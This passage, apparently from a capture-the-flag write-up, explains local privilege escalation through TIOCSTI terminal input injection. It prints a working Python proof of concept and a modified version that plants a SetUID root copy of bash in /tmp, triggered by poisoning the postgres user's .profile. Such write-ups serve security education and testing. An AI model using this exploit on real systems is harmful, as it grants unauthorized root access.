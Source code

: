 #### POC Analysis

The POC in the blog post is a Python script:

```

#!/usr/bin/env python3
import fcntl
import termios
import os
import sys
import signal

os.kill(os.getppid(), signal.SIGSTOP)

for char in sys.argv[1] + '\n':
    fcntl.ioctl(0, termios.TIOCSTI, char)

```

It stops the current process (the low priv shell), returning focus to the parent (the root shell). Then it send characters via the ioctl one by one so that they type into the shell the command and then a newline. `0` is the file descriptor for STDIN, and `TIOCSTI` is the ioctl that allows this write.

#### Poison .profile

`.bashrc`, `.profile`, and `.bash_login` all seem like potential files to poison. For some reason, I was able to get this to work with the latter two, but not with `.bashrc`. It’s also important to note that the way the bot runs is to delete all the files in the postgres user’s home directory (presumably to prevent players spoiling for each other), wait 60 seconds, run the code to trigger the exploit, wait 30 seconds, and start again. This means that if I write into postgres’ home directory during that latter 30 seconds, the file will be deleted before the exploit can be triggered.

I’ll create an exploit script at `/dev/shm/poc.py`:

```

#!/usr/bin/env python3
import fcntl
import termios
import os
import sys
import signal

os.kill(os.getppid(), signal.SIGSTOP)

for char in 'cp /bin/bash /tmp/0xdf; chmod 6777 /tmp/0xdf\n':
    fcntl.ioctl(0, termios.TIOCSTI, char)

```

This is like the POC, except my command is just to make a copy of `bash` as `/tmp/0xdf` and make it SetUID / setGID to run as root.
